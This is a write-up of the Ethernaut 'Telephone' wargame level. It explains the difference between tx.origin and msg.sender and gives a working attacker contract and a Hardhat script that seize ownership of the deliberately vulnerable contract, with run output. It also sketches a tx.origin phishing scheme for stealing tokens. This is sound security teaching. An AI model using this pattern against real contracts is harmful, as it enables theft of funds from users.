 ```yaml
---
title: Ethernaut #04 Telephone
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Telephone challenge writeup
---
```


## Telephone

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Background

This challenge only requires differenciating between `tx.origin` and `msg.sender`. The difference between the two is that the one (`tx.origin`) is who initiated the transaction while the other (`msg.sender`) is who triggered the call. In a simple transaction where all interactions are within the same contract, both `tx.origin` and `msg.sender` are the same address, that of the `EOA` that triggered the transaction. When a contract is interacting with another contract, then for the caller contract, both `tx.origin` and `msg.sender` are the same, while for the callee contract, the `tx.origin` is the `EOA` that initiated the transaction while the `msg.sender` is the caller contract.

### Attack

The attack is very simple, in order change owner we need to trigger the contract with different `msg.sender` and `tx.origin` values.

* Deploy an attacker controlled contract that can call `changeOwner`.
* Trigger the attacker controlled contract to call `changeOwner`

#### TelephoneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '../challenges/Telephone.sol';

contract TelephoneSolve {

  constructor() public {}

  function changeOwner(address _telephoneAddress, address _newOwner) public returns (bool) {
    Telephone telephoneContract = Telephone(_telephoneAddress);
    telephoneContract.changeOwner(_newOwner);
  }
}
```

#### telephone-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    telephoneAddress = "0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c";
    contract = await ethers.getContractAt("Telephone", telephoneAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    TelephoneSolve = await ethers.getContractFactory("TelephoneSolve");
    telephoneSolve = await TelephoneSolve.deploy();
    await telephoneSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // trigger change owner
    tx = await telephoneSolve.connect(account).changeOwner(
        contract.address, 
        account.address, 
    )
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/telephone-solve.js --network rinkeby
Level address   : 0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c
Contract Owner  : 0x0b6F6CE4BCfB70525A31454292017F640C10c768
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

